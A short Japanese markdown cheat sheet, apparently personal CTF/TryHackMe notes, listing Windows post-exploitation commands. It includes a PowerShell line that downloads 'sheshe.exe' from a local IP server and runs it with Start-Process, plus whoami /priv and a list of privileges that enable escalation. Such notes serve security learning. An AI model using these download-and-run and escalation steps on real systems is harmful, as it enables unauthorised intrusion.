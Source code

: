 # Windows

### fileの発見
`dir flag* /s /p`

### スクリプト実行
`.\filename`

### fileをDL
`powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.27.249:8000/sheshe.exe','sheshe.exe')"`

### powershellでプロセス実行
`powershell "Start-Process "sheshe.exe""`

### 現在のユーザーの権限一覧
`whoami /priv`
特権に関しては[こちら](https://www.exploit-db.com/papers/42556)参照
特権使ったTryHackMeは[これ](https://qiita.com/sanpo_shiho/items/3f2c4595f20cd4133ab8)

#### 怪しい特権
- SeImpersonatePrivilege
- SeAssignPrimaryPrivilege
- SeTcbPrivilege
- SeBackupPrivilege
- SeRestorePrivilege
- SeCreateTokenPrivilege
- SeLoadDriverPrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege

